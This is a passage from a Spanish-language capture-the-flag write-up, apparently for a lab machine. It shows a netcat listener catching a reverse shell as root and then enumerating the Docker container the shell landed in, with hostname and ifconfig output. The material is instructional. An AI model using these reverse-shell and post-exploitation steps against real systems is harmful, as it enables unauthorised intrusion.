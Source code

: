 Observa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.11.130] 34808
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
```
Listo, hemos ganado acceso a la máquina.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Docker">Enumeración del Contenedor de Docker y Aplicando Pivoting al Usuario Augustus</h2>

Si te das cuenta, estamos dentro de un contenedor de **Docker**. Lo podemos comprobar enumerándolo.

Veamos qué nos dice **hostname**:
```bash
root@3a453ab39d3d:/backend# hostname -I
hostname -I
172.19.0.2
```
Observa la IP, es de un segmento común de **Docker**.

Probemos con **ifconfig**:
```bash
root@3a453ab39d3d:/backend# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 267727  bytes 14762831 (14.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 273572  bytes 36415809 (34.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
Está comprobado que es un **contenedor de Docker**.
